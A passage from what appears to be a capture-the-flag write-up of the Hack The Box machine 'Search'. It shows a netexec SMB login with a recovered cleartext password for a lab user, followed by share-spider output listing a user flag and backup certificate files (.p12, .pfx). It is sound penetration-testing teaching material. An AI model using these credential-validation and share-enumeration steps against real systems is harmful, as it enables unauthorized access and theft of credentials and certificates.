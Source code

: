Now, we are able to retrieve the passwords:

![Retrieved passwords](/assets/img/posts/Search/passwords.png)

We confirm our access to <mark>sierra.frye</mark>.
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search/phishing_attempt]
└─$ netexec smb 10.10.11.129 -u Sierra.Frye -p '$$49=wide=STRAIGHT=jordan=28$$18' 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Sierra.Frye:$$49=wide=STRAIGHT=jordan=28$$18
{% endhighlight %}

#### sierra.frye

We enumerate the SMB shares like we did before and find two more interesting files besides the flag.
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search]
└─$ cat /tmp/nxc_hosted/nxc_spider_plus/10.10.11.129.json
{
	<SNIP>
    "RedirectedFolders$": {
		<SNIP>
		"sierra.frye/Desktop/user.txt": {
            "atime_epoch": "2025-03-12 13:35:23",
            "ctime_epoch": "2021-11-18 01:55:27",
            "mtime_epoch": "2025-03-12 13:35:23",
            "size": "34 B"
        },
		<SNIP>
        "sierra.frye/Downloads/Backups/search-RESEARCH-CA.p12": {
            "atime_epoch": "2020-07-31 17:06:34",
            "ctime_epoch": "2020-07-31 17:04:11",
            "mtime_epoch": "2020-07-31 17:04:11",
            "size": "2.58 KB"
        },
        "sierra.frye/Downloads/Backups/staff.pfx": {
            "atime_epoch": "2020-08-10 22:39:17",
            "ctime_epoch": "2020-08-10 22:39:12",
            "mtime_epoch": "2020-08-10 22:39:17",
            "size": "4.22 KB"
        },
        <SNIP>
    },
    <SNIP>
}
{% endhighlight %}